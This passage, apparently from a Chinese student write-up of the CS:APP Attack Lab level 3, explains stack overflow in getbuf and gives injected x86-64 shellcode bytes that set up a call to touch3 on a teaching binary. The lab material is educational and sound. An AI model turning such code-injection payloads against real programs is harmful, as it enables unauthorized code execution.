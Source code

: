 梳理一下内容，首先我们在test函数中调用了getbuf函数。

然后有了这样的栈帧结构:

(高地址在第一行, 注意下面是栈的结构)

```text
?? ?? ?? ?? ?? ?? ?? ?? # test函数的栈帧
[ret address (64bit)]   # getbuf函数结束后ret的参考地址 这里是%rsp + 0x28
xx xx xx xx xx xx xx xx # getbuf分配了0x28 * 64bit的空间(64位机器)
xx xx xx xx xx xx xx xx #
xx xx xx xx xx xx xx xx #
xx xx xx xx xx xx xx xx #
xx xx xx xx xx xx xx xx # <- %rsp的位置 同时也是缓冲区输入的位置
```

按照level2的攻击方式，我们先把最后一行填充完毕，然后覆盖掉`ret address`的地址，让%rip指向上面的最后一行，也就是注入的代码。从而执行攻击代码。

但是writeup中提及，当`hexmatch`和`strncmp`调用的时候，会push数据到栈中。

下面是`getbuf`执行完毕后栈的情况:

```text
?? ?? ?? ?? ?? ?? ?? ?? # test函数的栈帧 <- %rsp的位置 
[ret address (64bit)]   # 因为ret将%rip的位置设置到了这一行的地址
xx xx xx xx xx xx xx xx # getbuf分配了0x28 * 64bit的空间(64位机器)
xx xx xx xx xx xx xx xx #
xx xx xx xx xx xx xx xx #
xx xx xx xx xx xx xx xx #
xx xx xx xx xx xx xx xx # <- %rip 即将要执行的攻击代码
```

假如我们攻击代码要开始调用`touch3`了，然后内部再次调用`hexmatch`和`strncmp`函数。(这时候已经执行到攻击代码的最后一行ret)

稍微查看`hexmatch`就会发现，它居然push了一堆东西，并且让%rsp减了0x80，这让我们的攻击代码被覆盖。

其实代码被覆盖没有问题，因为我们在`gebuf`执行完毕之后，执行了一遍攻击代码，然后`ret`到我们设定的`touch3`位置。

但是我们输入的字符串数据将会被覆盖，这就是要解决的问题。显然继续往栈顶放置字符串不妥，因为我们不清楚栈被push了多少内容。那就牺牲test函数的栈顶了。(`?`的位置)

所以，这一次，我们需要将字符串作为参数，存放在test函数栈帧的栈顶位置(通过gebuf的缓冲区溢出来存放)，ret的地址设定为`touch3`的函数位置(通过攻击代码的push)。

因为我们要手动填写`??`那一行，`touch3`的第一个参数`%rdi`要填入`??`那一行的地址。通过前文，或者gdb直接打印地址就行:`0x5561dca8`

```nasm
mov   $0x5561dca8, %rdi
push  $0x4018fa
ret
```

获取这段代码的字节码：

```nasm

attack3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   

```

